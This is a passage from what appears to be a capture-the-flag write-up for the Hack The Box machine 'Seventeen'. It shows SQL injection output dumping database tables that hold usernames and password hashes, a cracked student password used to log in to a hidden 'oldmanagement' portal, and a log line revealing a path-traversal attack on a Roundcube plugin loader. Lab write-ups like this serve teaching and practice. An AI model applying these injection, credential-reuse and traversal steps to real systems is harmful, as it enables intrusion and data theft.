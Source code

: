 [12:12:09] [INFO] retrieved: Marksheet-finals.pdf
[12:12:15] [INFO] retrieved: 33
[12:12:15] [INFO] retrieved: 31234
Database: db_sfms
Table: storage
[1 entry]
+----------+---------+----------------------+-----------------+----------------------+
| store_id | stud_no | filename             | file_type       | date_uploaded        |
+----------+---------+----------------------+-----------------+----------------------+
| 33       | 31234   | Marksheet-finals.pdf | application/pdf | 2020-01-26, 06:57 PM |
+----------+---------+----------------------+-----------------+----------------------+
```

Okay so eventually i've dumped the whole ```erms_db``` and noticed that in the ```users``` table the avatar location contains a ```full path```:
```
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
| 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
| 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
```

After some manual testing i've found an endpoint that was not discovered via directory bruteforcing:

http://seventeen.htb:8000/oldmanagement/

### Port 8000 oldmanagement

Located at http://seventeen.htb:8000/oldmanagement/

The login form expects a ```Student No.```, so this is the one we cracked previously.



| user_no | Name  | password  |
|---|---|---|
| 31234  | Kelly Shane  | autodestruction  |


After logging in we can download the ```PDF``` we discovered previously via the DB dump.
From the PDF we gain some useful information:


```
Dear Kelly,
 Hello!Congratulationsonthe good grades. Your hard workhas paidoff! But Ido want to point out that you are lacking marks
inScience. Allthe other subjects are perfectlyfineand acceptable.But you do have to workonyourknowledge inScience
related areas.
Mr. Sam, your science teacher has mentioned to me that you are lacking inthe Physics sectionspecifically. Sowe thought

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)